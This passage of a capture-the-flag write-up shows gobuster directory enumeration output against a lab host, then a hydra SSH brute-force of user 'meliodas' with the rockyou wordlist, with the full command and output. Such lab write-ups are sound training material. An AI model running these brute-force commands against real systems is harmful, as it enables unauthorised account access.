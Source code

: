 ```bash
===============================================================
2021/07/02 15:35:49 Starting gobuster in directory enumeration mode
===============================================================
http://target.thm/.htaccess            (Status: 403) [Size: 294]
http://target.thm/.hta                 (Status: 403) [Size: 289]
http://target.thm/.htpasswd            (Status: 403) [Size: 294]
http://target.thm/.htaccess.php        (Status: 403) [Size: 298]
http://target.thm/.hta.php             (Status: 403) [Size: 293]
http://target.thm/.htpasswd.php        (Status: 403) [Size: 298]
http://target.thm/.htaccess.txt        (Status: 403) [Size: 298]
http://target.thm/.hta.txt             (Status: 403) [Size: 293]
http://target.thm/.htpasswd.txt        (Status: 403) [Size: 298]
http://target.thm/images               (Status: 301) [Size: 309] [--> http://target.thm/images/]
http://target.thm/index.html           (Status: 200) [Size: 5439]
http://target.thm/robots.txt           (Status: 200) [Size: 33]
http://target.thm/robots.txt           (Status: 200) [Size: 33]
http://target.thm/server-status        (Status: 403) [Size: 298]

===============================================================
2021/07/02 15:37:40 Finished
===============================================================

```

Still nothing. 


## Getting access

The web site had a post written by a 'meliodas'. I could not try that as a username anywhere on the site. So I decided to use it to try to brute force the ssh login. Of course, I used rockyou as the word list. 

```bash
$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t32 target ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-02 15:49:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 32 tasks per 1 server, overall 32 tasks, 14344402 login tries (l:1/p:14344402), ~448263 tries per task
[DATA] attacking ssh://target:22/
[22][ssh] host: target   login: meliodas   password: REDACTED
[STATUS] attack finished for target (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-02 15:50:30
```

It only took one minute to find the password. I then used it to connect to the server and get the first flag.
